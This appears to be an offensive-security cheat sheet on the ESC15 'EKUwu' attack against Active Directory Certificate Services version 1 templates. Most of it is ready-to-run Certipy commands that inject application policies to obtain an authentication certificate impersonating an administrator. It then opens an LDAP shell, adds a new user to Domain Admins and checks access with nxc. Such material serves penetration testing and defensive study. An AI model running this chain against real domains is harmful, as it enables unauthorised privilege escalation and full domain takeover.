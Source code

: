 # General Overview: 

The ESC15 "EKUwu" attack abuses legacy Active Directory Certificate Services (AD CS) version 1 templates, which allow attackers to override Extended Key Usage (EKU) settings by using application policies. This misconfiguration enables an attacker with enrollment rights to generate certificates with escalated privileges for actions like client authentication, certificate request agent, or code signing.

# Abusing ESC15 Certificate Templates

## Certipy:

Note: It is recommend to create python virtual environment (venv) to run this version of certipy.

Method 1:
- `certipy req -ca 'ca_name' -target "$ADCS_HOST" -u "afsimmons@megacorpone.com" -p "$PASSWORD" -template 'vulnerable template' -upn 'xadmin' --application-policies 'Client Authentication'`
Obtaining the Application Policy OID:
- `certipy req -ca 'ca_name' -target "$ADCS_HOST" -u "afsimmons@megacorpone.com" -p "$PASSWORD" -template 'vulnerable template' -upn 'xadmin' --application-policies '1.3.6.1.5.5.7.3.2'`
Method 2 (Using Schannel): 
- `certipy req -u "afsimmons@megacorpone.com" -p "$PASSWORD" -dc-ip 172.21.0.1 -ca 'ca_name' -template 'vulnerable template' -upn 'xadmin' --target 172.21.0.2 --application-policies 'Client Authentication'`
- certipy auth -pfx domainadmin.pfx -ldap-shell -dc-ip 172.21.0.1
- add_user_to_group esc15user "Domain Admins"
- nxc smb 172.21.0.1 -u esc15user -p "Password"

# References
- https://trustedsec.com/blog/ekuwu-not-just-another-ad-cs-esc
- https://github.com/dru1d-foofus/Certipy/tree/esc15-ekuwu
- Video Tutorial: https://www.youtube.com/watch?v=PKvazCvlb9A
- Potential Pull Request to the main Certipy project: https://github.com/ly4k/Certipy/pull/228
